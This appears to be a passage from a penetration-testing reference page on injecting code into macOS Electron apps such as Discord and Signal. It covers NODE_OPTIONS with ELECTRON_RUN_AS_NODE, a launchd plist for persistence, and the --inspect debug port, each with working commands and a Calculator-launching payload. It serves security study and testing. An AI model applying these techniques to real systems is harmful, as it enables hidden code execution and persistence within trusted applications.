 ## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```

> [!CAUTION]
> If the fuse **`EnableNodeOptionsEnvironmentVariable`** is **disabled**, the app will **ignore** the env var **NODE_OPTIONS** when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> If you don't set **`ELECTRON_RUN_AS_NODE`** , you will find the **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
           <key>NODE_OPTIONS</key>
           <string>--require /tmp/payload.js</string>
    </dict>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## RCE with inspecting

According to [**this**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f), if you execute an Electron application with flags such as **`--inspect`**, **`--inspect-brk`** and **`--remote-debugging-port`**, a **debug port will be open** so you can connect to it (for example from Chrome in `chrome://inspect`) and you will be able to **inject code on it** or even launch new processes.\
For example:

```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
